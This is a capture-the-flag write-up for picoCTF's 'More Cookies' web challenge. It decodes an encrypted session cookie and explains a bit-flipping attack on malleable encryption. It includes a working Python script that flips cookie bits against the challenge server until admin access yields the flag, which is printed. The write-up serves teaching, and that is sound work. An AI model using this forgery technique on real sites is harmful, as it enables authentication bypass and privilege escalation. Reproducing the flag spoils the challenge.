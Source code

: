 # More Cookies
Category: Web, 90 points

## Description

> I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! 

## Solution

We visit the attached website and receive the following cookie:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/More_Cookies]
└─$ curl -I http://mercury.picoctf.net:15614/
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:15614/
Set-Cookie: auth_name=NlhkcGZnRzdqRW53OXgwUFFZdGZKSCt3YWtzb0pPUzlxUDY0YzFndmx0UHhiamk3Y3QwaFdvMGJDMzV2MitiU3c3VkdOTjVVWVdpUTMxUlFkUGdjdk9rUFBTbFRJaGtESFZXZkQzcEM4cEdPZXZCZEtDek5EQzdFS2l4KzJWTW4=; Path=/
```

Let's decode it as base64:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/More_Cookies]
└─$ echo NlhkcGZnRzdqRW53OXgwUFFZdGZKSCt3YWtzb0pPUzlxUDY0YzFndmx0UHhiamk3Y3QwaFdvMGJDMzV2MitiU3c3VkdOTjVVWVdpUTMxUlFkUGdjdk9rUFBTbFRJaGtESFZXZkQzcEM4cEdPZXZCZEtDek5EQzdFS2l4KzJWTW4= | base64 -d
6XdpfgG7jEnw9x0PQYtfJH+waksoJOS9qP64c1gvltPxbji7ct0hWo0bC35v2+bSw7VGNN5UYWiQ31RQdPgcvOkPPSlTIhkDHVWfD3pC8pGOevBdKCzNDC7EKix+2VMn
```

It's another base64 encoded string. Let's continue decoding:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/More_Cookies]
└─$ echo 6XdpfgG7jEnw9x0PQYtfJH+waksoJOS9qP64c1gvltPxbji7ct0hWo0bC35v2+bSw7VGNN5UYWiQ31RQdPgcvOkPPSlTIhkDHVWfD3pC8pGOevBdKCzNDC7EKix+2VMn | base64 -d | xxd -g 1
00000000: e9 77 69 7e 01 bb 8c 49 f0 f7 1d 0f 41 8b 5f 24  .wi~...I....A._$
00000010: 7f b0 6a 4b 28 24 e4 bd a8 fe b8 73 58 2f 96 d3  ..jK($.....sX/..
00000020: f1 6e 38 bb 72 dd 21 5a 8d 1b 0b 7e 6f db e6 d2  .n8.r.!Z...~o...
00000030: c3 b5 46 34 de 54 61 68 90 df 54 50 74 f8 1c bc  ..F4.Tah..TPt...
00000040: e9 0f 3d 29 53 22 19 03 1d 55 9f 0f 7a 42 f2 91  ..=)S"...U..zB..
00000050: 8e 7a f0 5d 28 2c cd 0c 2e c4 2a 2c 7e d9 53 27  .z.](,....*,~.S'
```

According the the challenge description, this must be the encrypted cookie. The challenge said that since cookies can be modified on the client side, the mitigation was to encrypt them. However, if the encryption method is [Homomorphic](https://en.wikipedia.org/wiki/Homomorphic_encryption), changes made to the encrypted form will affect the decrypted form. This can be exploited using a [Bit Flipping Attack](https://en.wikipedia.org/wiki/Bit-flipping_attack).

So, we hope that somewhere in the cookie we have something like `admin=0`, and start flipping bits so that the plaintext will be transformed to `admin=1`. 

```python
from pwn import *
import requests
import base64
import re

URL = "http://mercury.picoctf.net:15614/"
COOKIE_NAME = "auth_name"

def main():
    s = requests.Session()
    r = s.get(URL)
    cookie = s.cookies[COOKIE_NAME]
    raw_cookie = bytearray(base64.b64decode(base64.b64decode(cookie)))
    log.info(f"Cookie: {cookie}")

    with log.progress("Flipping bits") as p:
        for byte_index in range(len(raw_cookie)):
            for i in range(8):
                mask = (1 << i)

                p.status(f"Trying to flip index {byte_index}/{len(raw_cookie)} with mask {hex(mask)}")

                # Flip the bit
                raw_cookie[byte_index] ^= mask

                new_cookie = base64.b64encode(base64.b64encode(raw_cookie)).decode("ascii")
                r = requests.get(URL, cookies = {COOKIE_NAME: new_cookie})
                if (m:= re.search(r"picoCTF{[^}]+}", r.text)) is not None:
                    log.success(f"Flipped index {byte_index}/{len(raw_cookie)} with mask {hex(mask)}, Flag: {m.group(0)}")
                    return

                # Flip the bit back
                raw_cookie[byte_index] ^= mask

if __name__ == "__main__":
    main()
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/More_Cookies]
└─$ python3 solve.py
[*] Cookie: TU1oWUZvMU9iOXhndGUrc3krbWRuWFVJRERHSE5oekxHcm5FZEhocDM1WEphZHNVaTBhcUpuTG5IbmZQU1VZbWNNWnBmbTlVWlA4ZE9neEJ3dmlFR002M0dmRzNpNy9JYkUyQVVvdFl2SHhJYlUyNzlqdkRIdUJIWk9IeVVIbHk=
[+] Flipping bits: Done
[+] Flipped index 9/96 with mask 0x1, Flag: picoCTF{cO0ki3s_yum_a9a19fa6}
```